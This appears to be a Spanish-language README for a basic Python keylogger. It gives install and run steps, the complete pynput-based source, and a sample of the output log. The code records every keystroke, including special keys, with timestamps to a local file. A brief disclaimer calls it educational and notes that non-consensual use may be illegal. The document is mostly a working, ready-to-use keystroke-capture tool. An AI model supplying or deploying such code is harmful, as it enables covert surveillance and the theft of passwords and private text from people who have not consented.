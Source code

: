 ## Basic Python Keylogger

Este es un simple keylogger implementado en Python que registra las teclas presionadas junto con la marca de tiempo correspondiente.

## Características

- Registra todas las teclas presionadas
- Guarda la fecha y hora de cada pulsación
- Almacena los registros en un archivo de texto
- Captura tanto caracteres imprimibles como teclas especiales

## Requisitos

- Python 3.10
- pynput

## Instalación

1. Asegúrate de tener Python instalado en tu sistema
2. Instala la dependencia necesaria:

```bash
pip install pynput
```

## Uso

1. Ejecuta el script:

```bash
python keylogger.py
```

2. El programa comenzará a registrar todas las teclas presionadas
3. Los registros se guardarán en un archivo llamado `keylog.txt` en el mismo directorio

## Estructura del Código

```python
from pynput.keyboard import Key, Listener
from datetime import datetime

# Función que registra cada tecla presionada
def on_press(key):
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')  # Fecha y hora actual
    try:
        # Si es un carácter imprimible, lo guarda como tal
        with open("keylog.txt", "a") as file:
            file.write(f"{timestamp} - {key.char}\n")
    except AttributeError:
        # Si es una tecla especial, la guarda como Key.<nombre>
        with open("keylog.txt", "a") as file:
            file.write(f"{timestamp} - {key}\n")

# Inicializa el listener para capturar las teclas
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Formato del Archivo de Salida

El archivo `keylog.txt` contendrá registros en el siguiente formato:

```
2025-01-10 14:30:45 - a
2025-01-10 14:30:46 - b
2025-01-10 14:30:47 - Key.space
```

## Advertencia

Este código es solo para fines educativos y de demostración. El uso de keyloggers sin el consentimiento explícito puede ser ilegal en muchas jurisdicciones.

## Contribuir

Siéntete libre de contribuir al proyecto mediante pull requests o reportando issues.

## Licencia

Este proyecto está licenciado bajo la Licencia MIT - ver el archivo LICENSE para más detalles.
